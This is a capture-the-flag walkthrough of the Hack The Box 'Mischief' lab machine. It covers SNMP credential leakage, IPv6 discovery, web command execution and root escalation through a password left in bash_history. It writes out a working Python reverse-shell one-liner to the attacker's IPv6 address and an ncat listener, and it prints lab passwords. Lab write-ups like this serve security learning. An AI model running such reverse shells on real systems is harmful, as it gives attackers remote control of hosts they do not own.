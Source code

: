 ```yaml
---
title: "Hack The Box - Mischief"
tags: [linux,insane,snmp,ipv6,snmp-check,enyx,bash history, code injection]
categories: HackTheBox-Linux
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%201.png)

⇒ On [http://10.10.10.92:3366](http://10.10.10.92:3366) we have a http-authentication form. We dont have any credentials to login.

⇒ We ran udp port scan and found snmp open :

161/udp open snmp

## Enumerating SNMP :

→ Ran snmp-check and found the following :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%202.png)

**loki : godofmischiefisloki**

→ Using these credentials we were able to login on the caldav webpage :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%203.png)

→ More new credentials :

**loki : trickeryanddeceit**

⇒ Lets enumerate **ipv6** through **snmp**

Tool : [https://github.com/trickster0/Enyx](https://github.com/trickster0/Enyx)

**python [enyx.py](http://enyx.py/) 2c public 10.10.10.92**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%204.png)

`**dead:beef:0000:0000:0250:56ff:feb9:2353**`

⇒ Lets run nmap :

**nmap -6 -sV -sC -A dead:beef:0000:0000:0250:56ff:feb9:2353**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%205.png)

⇒ Webpage : http://[dead:beef::250:56ff:feb9:2353]/

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%206.png)

→ We logged in as user **administrator** with password **trickeryanddeceit**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%207.png)

⇒ We have command execution. It says that the password is stored in home directory :

→ Reading everything in loki home directory :

**cat /home/loki/* ;**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%208.png)

SSH : **loki : lokiisthebestnorsegod**

⇒ SSH'ed in as loki

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%209.png)

**USER OWNED**

## Privilege Escalation to Root

⇒ In user bash_history we find the following :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2010.png)

→ Password : **lokipasswordmischieftrickery**

→ We tried switching to root using this password but it blocks the command. 

⇒ Lets get a shell as www-data through the web rce and then switch to root

→ Starting listener :

**ncat -6 -nlvp 4444**

→ Running command. [ Note : We are using our IPV6 address ]

**`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::102b",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ;`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2011.png)

⇒ Switched to root using the password we found in bash_history :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Mischief%20Box%2063a8665538674a6daa134ef527fe48b2/Untitled%2012.png)

**ROOTED**

→ ***/root/root.txt*** says the flag is not here. So lets run find command :

**find / -type f -name root.txt**

